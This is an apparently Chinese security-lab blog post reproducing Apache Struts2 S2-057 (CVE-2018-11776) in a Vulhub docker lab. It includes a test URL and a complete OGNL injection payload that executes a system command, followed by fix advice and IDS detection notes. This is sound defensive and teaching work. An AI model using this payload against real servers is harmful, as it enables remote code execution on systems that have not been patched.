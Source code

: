 \> 本文由 \[简悦 SimpRead\](http://ksria.com/simpread/) 转码， 原文地址 \[mp.weixin.qq.com\](https://mp.weixin.qq.com/s?\_\_biz=MzU2NDgzOTQzNw==&mid=2247485821&idx=1&sn=d5a4e3c0980998216e8768eace3b54b6&chksm=fc459c1fcb321509cc6f10bf66510f99386f2b1da7e18aff47235a37ad5c99df7e3a98184d78&mpshare=1&scene=1&srcid=1013fNQBXcKNf9mQ7456D6VS&sharer\_sharetime=1602549009765&sharer\_shareid=c051b65ce1b8b68c6869c6345bc45da1&key=8c9049d0f83009fe0a0dbeb91e506cac763babe897f60ab8eb2ef5cb612963f6fb9f1919c7209df3626546c0c4275664355fb1b2a72c9a22350d065bd5f9c4b485db7700da1cc1c929bd93fe49a98cbfe577a9d9eeb72c63bf00b06541dd934fb5a343bbef88be040e637bedf47488b0267025fee95cddadf060bc0f2badd317&ascene=1&uin=ODk4MDE0MDEy&devicetype=Windows+10+x64&version=6300002f&lang=zh\_CN&exportkey=AbKlenep%2BnGgkmmCwZQlzYM%3D&pass\_ticket=2G6SwO4uyYCX4aTiQDJvW1D1IrAJXn1CnpH%2BbX1rykSOMZNKPaotYwa2vyHnTBud&wx\_header=0)

  

  

网安引领时代，弥天点亮未来   

  

  

![](https://mmbiz.qpic.cn/mmbiz_png/MjmKb3ap0hDCVZx96ZMibcJI8GEwNnAyx4yiavy2qelCaTeSAibEeFrVtpyibBCicjbzwDkmBJDj9xBWJ6ff10OTQ2w/640?wx_fmt=png)

  

**0x00 漏洞简述**  

  

  

2018 年 8 月 22 日，Apache Strust2 发布最新安全公告，Apache Struts2 存在远程代码执行的高危漏洞（S2-057/CVE-2018-11776）。该漏洞是由于在 Struts2 开发框架中使用 namespace 功能定义 XML 配置时，namespace 值未被设置且在上层动作配置（Action Configuration）中未设置或用通配符 namespace，可能导致远程代码执行。同理，url 标签未设置 value 和 action 值且上层动作未设置或用通配符 namespace 时也可能导致**远程代码执行**。

![](https://mmbiz.qpic.cn/mmbiz_png/MjmKb3ap0hDCVZx96ZMibcJI8GEwNnAyx4yiavy2qelCaTeSAibEeFrVtpyibBCicjbzwDkmBJDj9xBWJ6ff10OTQ2w/640?wx_fmt=png)

  

**0x01 影响版本**

  

Apache Struts2.3–Struts 2.3.34, Struts 2.5– Struts 2.5.16

![](https://mmbiz.qpic.cn/mmbiz_png/MjmKb3ap0hDCVZx96ZMibcJI8GEwNnAyx4yiavy2qelCaTeSAibEeFrVtpyibBCicjbzwDkmBJDj9xBWJ6ff10OTQ2w/640?wx_fmt=png)

  

**0x02 漏洞复现**

  

  

虚拟机部署 docker 安装 Vulhub 一键搭建漏洞测试靶场环境。

```
docker-compose up -d
```

1、访问漏洞环境

![](https://mmbiz.qpic.cn/mmbiz_png/MjmKb3ap0hCTG6jUnJADS0vrDSeIriavY1uibP7g4ibkrnU5yUhPLmjdAqmCbbasTgV6PHarAicJU8eEChEILbvicjw/640?wx_fmt=png)

2、访问 / showcase 路径到 Struts2 测试页

http://192.168.60.131:8080/showcase

![](https://mmbiz.qpic.cn/mmbiz_png/MjmKb3ap0hCTG6jUnJADS0vrDSeIriavYrIN9OXKlAD2abjpy86qpYXgZu7l5ibWeG6qQSpOVic6O4QzBuSKEreag/640?wx_fmt=png)

3、Payload 验证漏洞是否存在

```
http://192.168.60.131:8080/struts2-showcase/$%7B9\*9%7D/actionChain1.action
```

![](https://mmbiz.qpic.cn/mmbiz_png/MjmKb3ap0hCTG6jUnJADS0vrDSeIriavYLmTL7manWnZNics5balp2Um7wwCXBBadE6IibVbRpdY4wibSE5cDqKD2A/640?wx_fmt=png)

返回结果

![](https://mmbiz.qpic.cn/mmbiz_png/MjmKb3ap0hCTG6jUnJADS0vrDSeIriavY7Zq3npJ5o82lH9YCh1aqARENicw7icRP3bszQzXugCAmr3yibPX7G5E6g/640?wx_fmt=png)

‍

4、POC 进行漏洞利用

```
${(#dm=@ognl.OgnlContext@DEFAULT\_MEMBER\_ACCESS).(#ct=#request\['struts.valueStack'\].context).(#cr=#ct\['com.opensymphony.xwork2.ActionContext.container'\]).(#ou=#cr.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ou.getExcludedPackageNames().clear()).(#ou.getExcludedClasses().clear()).(#ct.setMemberAccess(#dm)).(#a=@java.lang.Runtime@getRuntime().exec('id')).(@org.apache.commons.io.IOUtils@toString(#a.getInputStream()))}
```

在利用时需要进行 URL 编码

![](https://mmbiz.qpic.cn/mmbiz_png/MjmKb3ap0hCTG6jUnJADS0vrDSeIriavY2Siauuo9icX2EIlN4o8pxJvN6546zS0nbKMLXpA08HB9wwXWzU9m7pug/640?wx_fmt=png)

命令执行

![](https://mmbiz.qpic.cn/mmbiz_png/MjmKb3ap0hCTG6jUnJADS0vrDSeIriavYEHdQUiaCmFQ9JYuZaHgwlyzRibIYiaZtkc0ns8O8V2Ef9Cibeia0VDYzVhw/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/MjmKb3ap0hCTG6jUnJADS0vrDSeIriavYwxg6rUHrbicViclpYQUfBqCx4r0PmRZKF6t1plfdHvT2fqlMTogXplNw/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/MjmKb3ap0hDCVZx96ZMibcJI8GEwNnAyx4yiavy2qelCaTeSAibEeFrVtpyibBCicjbzwDkmBJDj9xBWJ6ff10OTQ2w/640?wx_fmt=png)

  

**0x03 修复建议**

  

  

1、将 ApacheStrust2 版本升级到官方最新版本

2、Web 应用，尽量保证代码的安全性。重点从 SDL 角度重视安全

3、对于 IDS 规则，数值计算和弹计算器返回的状态码都是 302，并且 Location 跳转字段含有特征句柄字符串；如果是命令回显返回的 200 状态码，且有命令结果输出。

![](https://mmbiz.qpic.cn/mmbiz_png/MjmKb3ap0hDCVZx96ZMibcJI8GEwNnAyx4yiavy2qelCaTeSAibEeFrVtpyibBCicjbzwDkmBJDj9xBWJ6ff10OTQ2w/640?wx_fmt=png)

  

**0x04 参考链接**

  

  

https://www.anquanke.com/post/id/157823

![](https://mmbiz.qpic.cn/mmbiz_gif/b96CibCt70iaaqjXT4YxgHVARD1NNv0RvKtiaAvXhmruVqgavPY3stwrfvLKetGycKUfxIq3Xc6F6dhU7eb4oh2gg/640?wx_fmt=gif) 

知识分享完了

喜欢别忘了关注我们哦~  

学海浩茫，

予以风动，

必降弥天之润！

   弥  天

安全实验室  

![](https://mmbiz.qpic.cn/mmbiz_jpg/MjmKb3ap0hDyTJAqicycpl7ZakwfehdOgvOqd7bOUjVTdwxpfudPLOJcLiaSZnMC7pDDdlIF4TWBWWYnD04wX7uA/640?wx_fmt=jpeg)